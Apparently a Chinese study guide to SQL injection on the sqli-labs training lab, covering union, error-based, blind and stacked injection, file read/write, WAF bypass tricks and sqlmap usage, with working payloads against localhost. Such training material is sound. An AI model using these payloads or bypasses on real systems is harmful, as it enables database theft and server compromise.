# SQLInjection_Learning

## SQL注入概述



SQL注入即是指[Web应用程序](https://baike.baidu.com/item/web%E5%BA%94%E7%94%A8%E7%A8%8B%E5%BA%8F/2498090)对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的[SQL语句](https://baike.baidu.com/item/SQL%E8%AF%AD%E5%8F%A5/5714895)，在管理员不知情的情况下实现非法操作，以此来实现欺骗[数据库服务器](https://baike.baidu.com/item/%E6%95%B0%E6%8D%AE%E5%BA%93%E6%9C%8D%E5%8A%A1%E5%99%A8/613818)执行非授权的任意查询，从而进一步得到相应的数据信息。

### Web应用程序三层架构

* 视图层
* 业务逻辑层
* 数据访问层



## SQL注入之数据库概述

数据库就是一个存储数据的仓库，数据库是以一定方式存储在一起，能与多个用户共享，具有尽可能小的冗余，与应用程序彼此独立的数据集合。

### 关系型数据库

关系型数据库，存储的格式可以直观地反映实体间的关系，和常见的表格比较相似；

关系型数据库中表与表之间有很多复杂的关联关系的；

常见的关系型数据库有MySQL, Orcale, PostgreSQL, SQL Server等。

### 非关系型数据库

随着近些年技术方向的不断扩展，大量的NoSQL数据库如MongoDB，Redis出于简化数据库结构，避免冗余，影响性能的表连接，摒弃复杂分布式的目的被设计。

NoSQL数据库适合追求速度和可扩展性，业务多变的场景。

[数据库排行榜](https://db-engines.com/en/ranking)



## SQL注入之MySQL数据库

数据库就是一个存储数据的仓库，数据库是以一定方式存储在一起，能与多个用户共享，具有尽可能小的冗余，与应用程序彼此独立的数据集合。

关系型数据库，存储的格式可以直观地反映实体间的关系，和常见的Excel表格比较相似。

### 数据库服务器层级关系

* 多个数据库
* 多个数据表
* 多个行、列、字段
* 多条数据



### MySQL系统库

提供了访问数据库元数据的方式。

元数据是关于数据库的数据，如数据库名和表名，列的数据类型或访问权限。



#### information_schema

信息数据库，保存着关于MySQL服务器所维护的所有其他数据库的信息；

例如：数据库或表的名称，列的数据类型或访问权限。有时用于此信息的其他术语是数据字典和系统目录。在Web渗透过程中用途很大。

```
SCHEMATA 表：提供了当前MySQL实例中所有数据库信息，show databases结果来自此表。

TABLES表：提供了关于数据中表的信息。table_name是关键字段。

COLUMNS表：提供了表的列信息，详细描述了某张表的所有列以及每个列的信息。column_name是关键字段。
```



#### performance_schema


MySQL 5.5开始新增一个数据库：PERFORMANCE_SCHEMA，具有87张表，主要用于收集数据库服务器性能参数。

内存数据库，数据放在内存中直接操作的数据库。

相对于磁盘，内存的数据读写速度要高出几个数量级。

#### mysql

是核心数据库，类似于sql server中的master表，主要负责存储数据库的用户（账户）信息、权限设置、关键字等mysql自己需要使用的控制和管理信息。

不可以删除，如果对mysql不是很了解，也不要轻易修改这个数据库里面的表信息。

常用举例：在mysql.user表中存储着用户的密码。

#### sys

是MySQL5.7增加的系统数据库，这个库是通过视图的形式把information_schema和performance_schema结合起来，查询出更加令人容易理解的数据，具有1个表，100个视图。

这个库可以查询谁使用了最多的资源，哪张表访问最多等。

## MySQL语句语法回顾

```
查询当前数据库服务器所有的数据库
show databases;
选中某个数据库
use 数据库名字 test
查询当前数据库所有的表
show tables；
查询t1表所有数据
查询关键字 select 
* 所有
from  表名
select * from t1;
条件查询 id=2
where 条件  编程 if（条件 true）{执行}
select * from t1 where id=2；
查询id=2   pass =111
union 合并查询 
2个特性：
前面查询的语句和后面的查询语句结果互不干扰
前面的查询语句的字段数量和后面的查询语句字段数量要一致

* == 3
select id from t1 where id=-1 union select * from t1 where pass =111;

order by 排序
order by 字段名字  id  也可以 跟上数字 1 2 3 4 .。。。。。

猜解表的列数 知道表有几列  
```

## MySQL手工注入

### SQL注入之sqli-labs环境搭建

往往很多新手在刚学习SQL注入的时候，都需要拥有一个能SQL注入的网站，需要有**SQL注入点** 的。直接去互联网上找的话对新手未免有点太难了，因此：我们一般都是在本地搭建一个能SQL注入测试的网站，那样我们学习SQL注入就容易多了。

Sqli-labs是一个印度程序员写的，用来学习[sql注入](https://so.csdn.net/so/search?q=sql%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)的一个游戏教程。

Sqli-labs项目地址—Github获取：[https://github.com/Audi-1/sqli-labs](https://github.com/Audi-1/sqli-labs)（在预习资料中有下载好的）



## Sqli-labs环境安装

###### 需要安装以下环境

apache+mysql+php
如果可以的话，推荐在windows和linux下分别安装

### 工具下载链接：

链接：https://pan.baidu.com/s/19om5w_QIK8uGWjhe2_SnXA
提取码：ianb

**安装之前确保本地没有下载mysql服务器！**

下载地址：https://www.xp.cn/

在发放的预习资料里面有下载好的工具：

解压之后如下图，运行phpstudy_x64.exe:



双击第一个运行程序后，出现安装界面，点击下方的“自定义安装”安装在除C盘外的盘符。之后点击立即安装即可。（一定要记住自己的安装目录 ！！！！！！）



点击安装之后，会出现安装进度条。等待不到1分钟，就会出现安装完成界面。点击安装完成，进入首页。



安装完成启动对应服务：



**需要注意的是：phpstudy自带的php版本过高，不兼容sqli-las靶场中php的版本，需要手动设置为低版本**

点击 软件管理 --> php --> 选择php5.2.17 点击安装 即可



检查是否更换好：

点击 网站  --> 管理 --> php版本 -->


sqli-las下载解压完成后，把解压文件放入phpstudy安装路径下的www文件夹中



sqli-labs 正常访问需要连接数据库，设置连接数据库配置文件才能正常连接。

mysql配置文件在sqli-labs文件中sql-connections



进入sql-connections找到db-creds文件进行配置，phpstudy中默认账号和密码为 root



**注意：要想phpstudy中自带mysql正常使用，需确保本地没有下载mysql服务器，如有需要卸载本地mysql服务，防止端口占用！**

# phpstudy连接mysql总是启动了又停止

第一种情况可能是端口占用问题，可以选择在phpstudy的MySQL中点击 ‘配置’ 里面更改端口，改成3307即可，不过一般这种情况较少



第二种情况就是曾经在电脑上安装过mysql，忘记了的可以在服务里面进行查看，比如：

如何查看 我的电脑--》右击--》管理--》服务和应用程序--》服务



这时候可以进入win + R输入cmd，最好以管理员的身份进入
之后输入 sc delete mysql，做完这一步在进入注册表，彻底删除之前的mysql

1、HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\Eventlog\Application\MySQL 目录删除

2、 HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services\Eventlog\Application\MySQL 目录删除

3、HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Eventlog\Application\MySQL 目录删除

做完这几步后恭喜你，离成功很近了，再次进入[phpstudy](https://so.csdn.net/so/search?q=phpstudy&spm=1001.2101.3001.7020)，在软件管理中删除之前的mysql服务，重新安装自己合适的选项，之后再去首页启动mysql服务就成功啦！



# SQL注入之MYSQL手工注入

本章节重点在于熟悉注入流程，以及注入原理。练习靶场为sqli-labs第二关数字型注入。

### sqli-labs数字型注入



在url中输入id值，执行查询sql语句。即可得到对应数据

less-2源码分析：



浏览器 进行数据提交  服务器  ：

```
get 提交  ：  url   数据长度 
     速度快  
	 用于： 

post 提交 ： 服务器    安全性   数据量 
```

### 注入流程



### 注入语句

```
尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  注入
		              ==  没有注入
		2.猜解列名数量 order by %20 空格
		字段 4个

		3.报错，判断回显点 union 
		4.信息收集 
		  数据库版本 version()
		  高版本：5.0  
			系统库： infromation 。。。
		  数据库名称：database（）
		  低版本：5.0 
		5.使用对应SQL进行注入  
			数据库库名：security
		. 下一级  
		infromation_schema.tables 查找表名
		table_name
		查询serurity库下面 所有的表名 

		database（）


		= 前后 连到一起
		union select 1,group_concat(table_name),3 from information_schema.tables
		where table_schema=database()

		表： users
		如何查询表里面有那些字段？ 
		user 字符 转行 16进制
		union select 1,group_concat(column_name),3 from information_schema.columns
		where table_name=0x7573657273

		username  password  字段数据  
		select username,password from users
		0x3a  :
		union select 1,2,(select group_concat(username,0x3a,password)from users)
		  
```

# SQL注入之高权限注入

在数据库中区分有数据库系统用户与数据库普通用户,二者的划分主要体现在对一些高级函数与资源表的访问权限上。直白一些就是高权限系统用户拥有整个数据库的操作权限,而普通用户只拥有部分已配置的权限。

网站在创建的时候会调用数据库链接,会区分系统用户链接与普通用户链接;当多个网站存在一个数据库的时候,root就拥有最高权限可以对多个网站进行管辖,普通用户仅拥有当前网站和配置的部分权限。所以当我们获取到普通用户权限时,我们只拥有单个数据库权限,甚至文件读写失败;取得高权限用户权限，不仅可以查看所有数据库,还可以对服务器文件进行读写操作。

### 多个网站共享mysql服务器





### MySQL 权限介绍

mysql中存在4个控制权限的表，分别为user表，db表，tables_priv表，columns_priv表，
我当前的版本mysql 5.7.22 。

```
select * from user where user='root' and host='localhost'\G;

	mysql权限表的验证过程为：

	先从user表中的Host,User,Password这3个字段中判断连接的ip、用户名、密码是否存在，存在则通过验证。

	通过身份认证后，进行权限分配，
	按照user，db，tables_priv，columns_priv的顺序进行验证。
	即先检查全局权限表user，如果user中对应的权限为Y，则此用户对所有数据库的权限都为Y，
	将不再检查db, tables_priv,columns_priv；如果为N，则到db表中检查此用户对应的具体数据库，
	并得到db中为Y的权限；如果db中为N，则检查tables_priv中此数据库对应的具体表，取得表中的权限Y，以此类推。
 
 2.1 系统权限表
	User表：存放用户账户信息以及全局级别（所有数据库）权限，决定了来自哪些主机的哪些用户可以访问数据库实例，如果有全局权限则意味着对所有数据库都有此权限 
	Db表：存放数据库级别的权限，决定了来自哪些主机的哪些用户可以访问此数据库 
	Tables_priv表：存放表级别的权限，决定了来自哪些主机的哪些用户可以访问数据库的这个表 
	Columns_priv表：存放列级别的权限，决定了来自哪些主机的哪些用户可以访问数据库表的这个字段 
	Procs_priv表：存放存储过程和函数级别的权限


 2. MySQL 权限级别分为： 
	全局性的管理权限： 作用于整个MySQL实例级别 
	数据库级别的权限： 作用于某个指定的数据库上或者所有的数据库上 
	数据库对象级别的权限：作用于指定的数据库对象上（表、视图等）或者所有的数据库对象
 
 3.查看mysql 有哪些用户：
	mysql> select user,host from mysql.user;
 
 4.查看用户对应权限
 select * from user where user='root' and host='localhost'\G;  #所有权限都是Y ，就是什么权限都有
 
 5.创建 mysql 用户
	有两种方式创建MySQL授权用户

	执行create user/grant命令（推荐方式）
	CREATE USER 'finley'@'localhost' IDENTIFIED BY 'some_pass';
	通过insert语句直接操作MySQL系统权限表
 
 6.只提供id查询权限
 grant select(id) on test.temp to test1@'localhost' identified by '123456';
 
 7.把普通用户变成管理员
	GRANT ALL PRIVILEGES ON *.* TO 'test1'@'localhost' WITH GRANT OPTION;

 8.删除用户
	drop user finley@'localhost';
```

# SQL注入之高权限注入

1.注入流程与上节实例相同

#### 查询所有数据库名称



```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata
```

#### 查询数据库对应的表名



```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=0x74657374
```

#### 查询表名对应的字段名



```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=0x7431
```

#### 查询数据



```
http://localhost/sqli-labs-master/Less-2/?id=-2%20union%20select%201,name,pass%20from%20test.t1
```

# SQL注入之文件读写

#### 文件读写注入的原理

就是利用文件的读写权限进行注入，它可以写入一句话木马，也可以读取系统文件的敏感信息。

#### 文件读写注入的条件

高版本的MYSQL添加了一个新的特性secure_file_priv，该选项限制了mysql导出文件的权限

**secure_file_priv选项**

```
linux
cat  etc/conf

win
www/mysql / my.ini

```

show global variables like '%secure%'  查看mysql全局变量的配置

1、读写文件需要 `secure_file_priv`权限

**`secure_file_priv=`**

代表对文件读写没有限制

`secure_file_priv=NULL`

代表不能进行文件读写

`secure_file_priv=d:/phpstudy/mysql/data`

代表只能对该路径下文件进行读写

2、知道网站绝对路径

Windows常见：


Linux常见：


路径获取常见方式：

报错显示，遗留文件，漏洞报错，平台配置文件等

#### 读取文件

使用函数：`load_file()`

后面的路径可以是单引号，0x，char转换的字符。

注意：路径中斜杠是/不是\。

一般可以与union中做为一个字段使用，查看config.php(即mysql的密码)，apache配置...

#### 写入文件

使用函数：`Into Outfile`（能写入多行，按格式输出）和 `into Dumpfile`（只能写入一行且没有输出格式）

outfile 后面不能接0x开头或者char转换以后的路径，只能是单引号路径

# 2.6 SQL注入之基础防御

### 魔术引号

魔术引号（Magic Quote）是一个自动将进入 PHP 脚本的数据进行转义的过程。
最好在编码时不要转义而在运行时根据需要而转义。

魔术引号：
在php.ini文件内找到

```
magic_quotes_gpc = On 开启

将其改为

magic_quotes_gpc = Off 关闭
```

### 内置函数

做数据类型的过滤

is_int()等

addslashes()

mysql_real_escape_string()

mysql_escape_string()

### 自定义关键字

str_replace()

其他安全防护软件 WAF ......

## 数据类型与提交方式

# SQL注入之数据类型

### （1）数字型注入点

许多网页链接有类似的结构 [http://xxx.com/users.php?id=1](http://xxx.com/users.php?id=1) 基于此种形式的注入，一般被叫做数字型注入点，缘由是其注入点 id 类型为数字，在大多数的网页中，诸如 查看用户个人信息，查看文章等，大都会使用这种形式的结构传递id等信息，交给后端，查询出数据库中对应的信息，返回给前台。这一类的 SQL 语句原型大概为 `select * from 表名 where id=1` 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where id=1 and 1=1`

### （2）字符型注入点

网页链接有类似的结构 [http://xxx.com/users.php?name=admin](http://xxx.com/users.php?name=admin) 这种形式，其注入点 name 类型为字符类型，所以叫字符型注入点。这一类的 SQL 语句原型大概为 `select * from 表名 where name='admin'` 值得注意的是这里相比于数字型注入类型的sql语句原型多了引号，可以是单引号或者是双引号。若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where name='admin' and 1=1 '` 我们需要将这些烦人的引号给处理掉。

### （3）搜索型注入点

这是一类特殊的注入类型。这类注入主要是指在进行数据搜索时没过滤搜索参数，一般在链接地址中有 `"keyword=关键字"` 有的不显示在的链接地址里面，而是直接通过搜索框表单提交。此类注入点提交的 SQL 语句，其原形大致为：`select * from 表名 where 字段 like '%关键字%'` 若存在注入，我们可以构造出类似与如下的sql注入语句进行爆破：`select * from 表名 where 字段 like '%测试%' and '%1%'='%1%'`

### (4) xx型注入点

其他型：也就是由于SQL语句拼接方式不同，在SQL中的实际语句为：，其本质为（xx') or 1=1 # ）

常见的闭合符号：'     ''    %     (      {

# SQL注入之数据提交方式

### GET方式注入

get注入方式比较常见，主要是通过url中传输数据到后台，带入到数据库中去执行，可利用联合注入方式直接注入

### POST方式注入

post提交方式主要适用于表单的提交，用于登录框的注入

方法：利用BurpSuite抓包进行重放修改内容进行，和get差别是需要借助抓包工具进行测试，返回结果主要为代码，也可转化为网页显示

### Request方式注入

概念：超全局变量 PHP中的许多预定义变量都是“超全局的”，这意味着它们在一个脚本的全部作用域中都可以用，这些超全局变量是：
$_REQUEST（获取GET/POST/COOKIE）COOKIE在新版本已经无法获取了
$_POST（获取POST传参）
$_GET（获取GET传参）
$_COOKIE（获取COOKIE传参）
$_SERVER（包含了诸如头部信息(header)、路径(path)、以及脚本位置(script locations)等等信息的数组）

### HTTP头注入

什么是Header头？

通常HTTP消息包括客户机向服务器的请求消息和服务器向客户机响应消息。 这两种类型的消息有一个起始行，一个或者多个头域，一个只是头域结束的空行和可选的消息体组成。 HTTP的头域包括通用头，请求头，响应头和实体头四个部分

### 什么是Header头部注入？

header注入，该注入是指利用后端验证客户端信息（比如常用的cookie验证）或者通过header中获取客户端的一些信息（比如User-Agent用户代理等其他header字段信息），因为这些信息在某些地方是会和其他信息一起存储到数据库中，然后再在前台显示出来，又因为后台没有经过相对应的信息处理所以构成了sql注入。

# SQL注入靶场案例练习

### Less-11 POST - Error Based - Single quotes- String (基于错误的POST型单引号字符型注入)



**用burpsuit，抓包修改参数**



联合查询union select测试payload

uname=admin' union select 1,2  --+&passwd=admin&submit=Submit

爆库payload

uname=admin' union select 1,database() --+&passwd=admin&submit=Submit

### **Less-20** POST - Cookie injections - Uagent field  - Error based (基于错误的cookie头部POST注入)

单引号，报错型，cookie型注入。



存在魔术引号



直接cookie注入，进行绕过

Cookie: uname=-admin' union select 1,2,database()--+



## 查询方式及报错注入

# SQL注入之查询方式

当进行SQL注入时，有很多注入会出现无回显的情况，其中不回显得原因可能时SQL语句查询方式问题导致，这个时候我们需要用到报错或者盲注进行后续操作，同时在注入的过程中，提前了解其中SQL语句可以更好的选择对应的注入语句。

select 查询数据

例如：在网站应用中进行数据显示查询操作

```
select * from user where id=$id
```

## delete 删除数据

例如：后台管理里面删除文章删除用户等操作

```
delete from user where id=$id
```

## insert 插入数据

例如：在网站应用中进行用户注册添加操作

```
inser into user （id,name,pass） values(1,'zhangsan','1234')
```

## update 更新数据

例如：后台中心数据同步或者缓存操作

```
update user set pwd='p' where id=1
```

# SQL注入 报错盲注

盲注就是在注入的过程中，获取的数据不能显示到前端页面，此时，我们需要利用一些方法进行判断或者尝试，我们称之为盲注。我们可以知道盲注分为以下三类：

### 1.基于布尔的SQL盲注 - 逻辑判断

regexp like ascii left ord mid

### 2.基于时间的SQL盲注 - 延时判断

if sleep

### 3.基于报错的SQL盲注 - 报错回显（强制性报错   ）

函数解析：

**updatexml():从目标XML中更改包含所查询值的字符串**

第一个参数：XML_document 是String格式，为XML文档对象的名称，文中为DOC

第二个参数：XPath_string(Xpath格式字符串)

第三个参数：new_value,String格式，替换查找到的符合条件的数据

updatexml（XML_document,XPath_String,new_value）;

'or updatexml(1,concat(0x7e,database()),0)or'

**extractvalue():从目标XML中返回包含所查询值的字符串**

第一个参数：XML_document 是String格式，为XML文档对象的名称，文中为DOC

第二个参数：XPath_String (Xpath格式字符串)

extractvalue(XML_document,XPath_String)

' or extractvalue(1,concat(0x7e,database())) or'

' union select 1,extractvalue(1,concat(0x7e,(select version())))%23

函数应用：





floor()向下取整  floor（10.5）  =  10
rand（）随机数 0 ~ 1之间
count（*）函数返回表的记录数。
concat函数：将多个字符串连接成一个字符串
group_by 根据by对数据按照哪个字段、进行分组，或者是哪几个字段进行分组（去重）。
会建立一张临时表
注意：多个字段分组要使用某个列的聚合函数 cout sum等

pikachu insert

username=x' or (select 1 from (select count(*),concat((select))

# 基于时间的SQL盲注 - 延时注入

**知识储备：**

sleep（）：                                     *Sleep* 函数可以使计算机程序（进程，任务或线程）进入休眠

if（）：                                           *i f* 是 计算机编程语言一个关键字，分支结构的一种

mid(a,b,c):                                      从b开始，截取a字符串的c位

substr(a,b,c)：                                从b开始，截取字符串a的c长度

left(database(),1),database() :         left(a,b)从左侧截取a的前b位

length(database())=8 ：                 判断长度

ord=ascii ascii(x)=100：                判断x的ascii值是否为100

在不使用sleep下查询数据所需要的时间：0.03秒



使用sleep可以使查询数据休眠指定时间



if（a,b,c）：可以理解在java程序中的三目运算符，a条件成立 执行b, 条件不成立，执行c



使用if与sleep结合使用：



达到延时数据显示，从而通过数据显示的时间判断数据对错!

使用靶场less-2来实现延时注入：

localhost/sqli-labs-master/Less-2/index.php?id=1%20and%20sleep(if(database()=%27test%27,0,5))



可以通过length（）来判断数据库的长度

http://localhost/sqli-labs-master/Less-2/index.php?id=1%20and%20sleep(if(length(database())=8,8,0))





mid（）使用：



substr()函数
Substr()和substring()函数实现的功能是一样的，均为截取字符串。

string substring(string, start, length)
string substr(string, start, length)
参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。

substr()函数使用：



Left()函数

Left()得到字符串左部指定个数的字符

Left ( string, n ) string为要截取的字符串，n为长度。


通过以上函数可以来判断数据信息：

http://localhost/sqli-labs-master/Less-2/index.php?id=1%20and%20sleep(if(mid(database(),1,1)=%27t%27,0,5))



推荐使用ASCII码

1.防止引号 ‘  “ 转义

2.方便以后工具的使用

使用ascii函数（）



结合场景使用：

select * from t1 where id=1 and if(ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=120,sleep(3),0);

select * from t1 where id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=116,sleep(2),0);

```
SQL注入之布尔盲注
```

### 1.什么是布尔盲注？

Web的页面的仅仅会返回True和False。那么布尔盲注就是进行SQL注入之后然后根据页面返回的True或者是False来得到数据库中的相关信息。

返回False时：


返回True时：


### 2.如何进行布尔盲注？

注入流程：



### 3.靶场案例演示：

1.** 猜解数据库的名字**

`http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>115--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))>116--+ 非正常

http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(mid(database(),1,1))=115--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),2,1))=101--+ 正常
http://127.0.0.1/sql/less-5/index.php?id=1' and ascii(mid(database(),3,1))=99--+  正常`

如此就得到了

第一个字符的ASCII码为115解码出来为“s”

第二个字符的ASCII码为101解码出来为“e”

第二个字符的ASCII码为99解码出来为“c”

依次类推出数据库的名字为“security”

2.**猜解表明名**

```
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+ 
正确
http://127.0.0.1/sql/Less-5/index.php?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=101--+ 正确
```

注：select下的limit是第几个表。

substr下的是截取的表内容。

当前库下（注入点连接的数据库）第一个表ASCII码为**114  解码为r**

当前库下（注入点连接的数据库）第一个表ASCII码为**101  解码为e**

**当前库下（注入点连接的数据库）第一个表ASCII码为....**  解码为** referer**



### 总结归纳：

盲注分为三种：

**1.[布尔型盲注](http://www.cnblogs.com/xishaonian/p/6103505.html%20)：** 根据页面返回的真假来判断的即为**布尔型盲注**

**2.[时间型盲注](http://www.cnblogs.com/xishaonian/p/6113965.html)：** 根据页面返回的时间来判断的即为**时间型盲注**

**3.报错型盲注** ：根据页面返回的对错来判断的即为**报错型盲注**

```
SQL注入之加解密注入
```

Base64是网络上最常见的用于传输8Bit[字节码](https://baike.baidu.com/item/%E5%AD%97%E8%8A%82%E7%A0%81/9953683)的编码方式之一，Base64就是一种基于64个可打印字符来表示[二进制](https://baike.baidu.com/item/%E4%BA%8C%E8%BF%9B%E5%88%B6/361457)数据的方法。

Less-21关 Cookie加密注入：



通过Burpsuite抓包：

![Burpsuite抓包(./assets/20250210/3a59733c2ad84a8fbbde859c12d8bdec.png)

进行Base64解密：



# SQL注入之堆叠注入

在SQL中，分号 ；是用来表示一条sql语句的结束，试想一下我们在 ； 结束一个sql语句后面继续构造下一个语句
会不会一起执行？因此这个想法也就造就了堆叠注入。




而union injection（联合注入）也是将两条语句合并在一起
两者之间有什么区别？区别就在于union执行语句类型有限，可以用来执行查询语句，而堆叠注入可以执行的是任意语句

Less-38

http://localhost/sqli-labs-master/Less-38/?id=1%27;insert%20into%20users(id,username,password)%20values%20(%2722%27,%27mc%27,%27hello%27)--+



# SQL注入之WAF绕过

### `WAF拦截原理：WAF从规则库中匹配敏感字符进行拦截。`



# 关键词大小写绕过

```
    有的WAF因为规则设计的问题，只匹配纯大写或纯小写的字符，对字符大小写混写直接无视，这时，我们可以利用这一点来进行绕过

    举例： union select ---> unIOn SeLEcT
```

# 编码绕过

```
    针对WAF过滤的字符编码，如使用URL编码，Unicode编码，十六进制编码，Hex编码等.

    举例：union select 1,2,3# =union%0aselect 1\u002c2,3%23
```

# 双写绕过

```
    部分WAF只对字符串识别一次，删除敏感字段并拼接剩余语句，这时，我们可以通过双写来进行绕过。

    举例：UNIunionON ，SELselectECT anandd
```

# 换行(\N)绕过

```
    举例：select * from admin where username = \N union select 1,user() from admin
```

# 注释符内联注释绕过：

```


    union selecte =/*!union*/ select

    注释符里感叹号后面的内容会被mysql执行。
```

# 同义词替换

```
    and=&&

    or=||

    =(等于号)=<、>

    空格不能使用=%09,%0a,%0b,%0c,%0d,%20,%a0等

    注：%0a是换行也可以替代空格
```

# HTTP参污染

```
    对目标发送多个参数，如果目标没有多参数进行多次过滤，那么WAF对多个参数只会识别其中的一个。

    举例：?id=1&id=2&id=3
    ?id=1/**&id=-1%20union%20select%201,2,3%23*/
```

### `WAF绕过的思路就是让WAF的检测规则，识别不到你所输入的敏感字符，利用上述所介绍的知识点，灵活结合各种方法，从而可以增加绕过WAF的可能性`

```
order by绕过：%20/*//--/*/  V4.0
联合绕过：union /*!--+/*%0aselect/*!1,2,3*/ --+
from绕过： /*!06447%23%0afrom*/
  
```

## sqlmap

# SQL注入之sqlmap使用(get型注入)

#### 一、SQLMap介绍

##### 1、Sqlmap简介：

Sqlmap是一个开源的渗透测试工具，可以用来自动化的检测，利用SQL注入漏洞，获取数据库服务器的权限。它具有功能强大的检测引擎，针对各种不同类型数据库的渗透测试的功能选项，包括获取数据库中存储的数据，访问操作系统文件甚至可以通过外带数据连接的方式执行操作系统命令。

目前支持的数据库有MySQL、Oracle、PostgreSQL、Microsoft SQL Server、Microsoft Access等大多数据库。

##### 2、Sqlmap支持的注入方式：

Sqlmap全面支持六种SQL注入技术：

* 基于布尔类型的盲注：即可以根据返回页面判断条件真假的注入。
* 基于时间的盲注：即不能根据页面返回的内容判断任何信息，要用条件语句查看时间延迟语句是否已执行(即页面返回时间是否增加)来判断。
* 基于报错注入：即页面会返回错误信息，或者把注入的语句的结果直接返回到页面中。
* 联合查询注入：在可以使用Union的情况下的注入。
* 堆查询注入：可以同时执行多条语句时的注入。
* 带外注入：构造SQL语句，这些语句在呈现给数据库时会触发数据库系统创建与攻击者控制的外部服务器的连接。以这种方式，攻击者可以收集数据或可能控制数据库的行为。

#### 二、SQLMap使用：

##### 1、判断是否存在注入：

假设目标注入点是 `http://127.0.0.1/sqli-labs/Less-1/?id=1`，判断其是否存在注入的命令如下：

```
sqlmap.py -u http://127.0.0.1/sqli-labs/Less-1/?id=1

```

当注入点后面的参数大于等于两个时,需要加双引号，如下所示。

```
sqlmap.py -u "http://127.0.0.1/sqli-labs/Less-1/?id=1&uid=2"

```

运行完判断是否存在注入的语句后，爆出一大段代码，这里有三处需要选择的地方：第一处的意思为检测到数据库可能是MySQL，是否需要跳过检测其他数据库；第二处的意思是在“level1、risk1”的情况下，是否使用MySQL对应的所有Payload进行检测；第三处的意思是参数 `id`存在漏洞，是否要继续检测其他参数，一般默认按回车键即可。

常用命令：

```

-u:用于get提交方式，后面跟注入的url网址
--level
--risk

--dbs：获取所有数据库
--tales：获取所有数据表
--columns：获取所有字段
--dump：打印数据

-D：查询选择某个库
-T：查询选择某个表
-C：查询选择某个字段
level：执行测试的等级（1~5，默认为1），使用-level参数并且数值>=2的时候会检查cookie里面的参数，
	当>=3时检查user-agent和refereer
          risk：执行测试的风险（0~3,默认为1），默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，
	3会增加or语句的sql注入
```

# SQL注入之sqlmap使用(post注入)

POST型：与数据库交互是通过post数据进行，URL不可见

### 利用sqlmap进行POST注入，常见的有三种方法:

## 注入方式一：

**1.用Burp抓包，然后保存抓取到的内容。例如：保存为1.txt,然后把它放至某个目录下**



**2.列数据库:**

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname --dbs

也可以使用  *  指定需要测试的参数

**it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]**
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n]  输入"Y"

**for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]**
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？ [Y/n] 输入"N"

**POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]**
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"Y"

### 3.猜表

选择一个数据库，比如选test

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname -D test --tables



**4.猜列**

sqlmap.py -r C:\Users\ZQ\Desktop\1.txt -p uname -D test  -T t1 --columns



## 注入方式二：自动搜索表单的方式

sqlmap.py  -u "http://localhost/sqli-labs-master/Less-11/index.php" --forms



do you want to test this form? [Y/n/q]
要测试此表单吗?[Y/n/q]  输入"Y"

do you want to fill blank fields with random values? [Y/n]
是否要填充带有随机值的空白字段? [Y/n]  输入"Y"

it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
它看起来像后端DBMS是'MySQL'。 是否要跳过特定于其他DBMS的测试负载？ [Y/n] 输入"Y"

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
对于剩余的测试，您想要包括所有针对“MySQL”扩展提供的级别（1）和风险（1）值的测试吗？[Y/n]  输入"N"

POST parameter 'n' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
POST参数'n'是脆弱的。 你想继续测试其他人（如果有的话）吗？[y/N]  输入"N"

do you want to exploit this SQL injection? [Y/n]
你想利用SQL注入？ 输入"Y"



常用命令：

```
-r表示加载一个文件，-p指定参数
--current-db 当前数据库
--forms 自动检测表单
-data   
```

# SQLmap安装教程

## sqlmap简介：

sqlmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MS-SQL,,MYSQL,ORACLE和POSTGRESQL。SQLMAP采用四种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，堆查询和基于时间的SQL盲注入。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令。

## 准备工作：

(1) Python2.7.11；

https://www.python.org/

(2) SQLMap

https://sqlmap.org/



默认全选，下一步



更改安装路径即可



下载sqlmap：



下载完成，进行解压文件，推荐除C盘以外其他盘符



再安装路径下，输入cmd



